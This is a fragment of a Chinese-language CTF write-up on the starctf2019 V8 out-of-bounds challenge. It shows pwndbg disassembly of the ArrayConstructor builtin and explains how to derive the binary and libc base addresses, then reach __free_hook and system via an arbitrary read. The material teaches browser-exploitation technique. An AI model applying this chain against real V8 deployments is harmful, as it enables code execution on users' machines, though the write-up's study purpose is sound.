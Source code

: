 ```c

 - feedback vector: not available
pwndbg> job 0x1dced6306981
0x1dced6306981: [Code]
 - map: 0x019604340a31 <Map>
kind = BUILTIN
name = ArrayConstructor
compiler = turbofan
address = 0x7ffe6e8de648

Trampoline (size = 13)
0x1dced63069c0     0  49ba80d735f18f550000 REX.W movq r10,0x558ff135d780  (ArrayConstructor)
0x1dced63069ca     a  41ffe2         jmp r10

Instructions (size = 28)
0x558ff135d780     0  493955d8       REX.W cmpq [r13-0x28] (root (undefined_value)),rdx
0x558ff135d784     4  7405           jz 0x558ff135d78b  (ArrayConstructor)
0x558ff135d786     6  488bca         REX.W movq rcx,rdx
0x558ff135d789     9  eb03           jmp 0x558ff135d78e  (ArrayConstructor)
0x558ff135d78b     b  488bcf         REX.W movq rcx,rdi
0x558ff135d78e     e  498b5dd8       REX.W movq rbx,[r13-0x28] (root (undefined_value))
0x558ff135d792    12  488bd1         REX.W movq rdx,rcx
0x558ff135d795    15  e926000000     jmp 0x558ff135d7c0  (ArrayConstructorImpl)
0x558ff135d79a    1a  90             nop
0x558ff135d79b    1b  90             nop


Safepoints (size = 8)

RelocInfo (size = 2)
0x1dced63069c2  off heap target

pwndbg> x/10gx 0x558ff135d780
0x558ff135d780 <Builtins_ArrayConstructor>:	0x8b480574d8553949	0x8b49cf8b4803ebca
0x558ff135d790 <Builtins_ArrayConstructor+16>:	0x0026e9d18b48d85d	0x0000000090900000
0x558ff135d7a0 <Builtins_ArrayConstructor+32>:	0xcccccccc00000003	0xcccccccccccccccc
0x558ff135d7b0 <Builtins_ArrayConstructor+48>:	0xcccccccccccccccc	0xcccccccccccccccc
0x558ff135d7c0 <Builtins_ArrayConstructorImpl>:	0x0ffa3b481f778b48	0x5d39490000013d85
```

object->map->constructor->code 中有一个Builtins_ArrayConstructor函数的地址，这是elf中一个函数，所以用IDA找到偏移：0xfc8780

![image-20200713175249955](..\image\2020-07-13-starctf2019-v8-oob分析\4.png)

0x558ff135d780 减去该偏移就是elf加载的基地址，之后找到free函数got表地址，任意读获取free函数地址，然后利用readelf -s 获取free函数在libc.so中偏移，就可以得到libc的基址，进而获取__free_hook和system函数的地址。
